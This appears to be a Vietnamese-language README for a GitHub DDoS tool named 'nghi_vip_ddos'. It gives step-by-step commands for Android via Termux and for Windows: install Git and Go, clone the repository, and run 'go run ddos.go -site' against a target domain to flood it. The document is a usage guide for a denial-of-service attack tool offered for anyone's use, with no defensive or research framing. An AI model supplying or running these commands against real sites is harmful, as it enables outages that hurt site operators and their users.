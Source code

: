 ---------- Trên Điện Thoại Android ----------

Bước 1: Cài Đặt Ứng Dụng Termux
Link Tải: https://apkcombo.com/vi/termux/com.termux/

Bước 2: Mở Ứng Dụng Termux Chạy Các Lệnh Theo Thứ Tự
```
pkg install git -y
pkg install golang -y
git clone https://github.com/Nghi235/nghi_vip_ddos.git
```
```
cd nghi_vip_ddos && go run ddos.go -site https://domain.com
```


---------- Trên Hệ Điều Hành Windows ----------

Bước 1: Cài Đặt "Git For Windows"
Link Tải: https://gitforwindows.org/

Bước 2: Cài Đặt "Golang For Windows"
Link Tải: https://go.dev/doc/install

Bước 3: Ấn Tổ Hợp Phím "Windows+R" Tìm Kiếm "cmd" Và Ấn Enter Chạy Các Lệnh Sau
```
git clone https://github.com/Nghi235/nghi_vip_ddos.git
```
```
cd nghi_vip_ddos && go run ddos.go -site https://domain.com
```
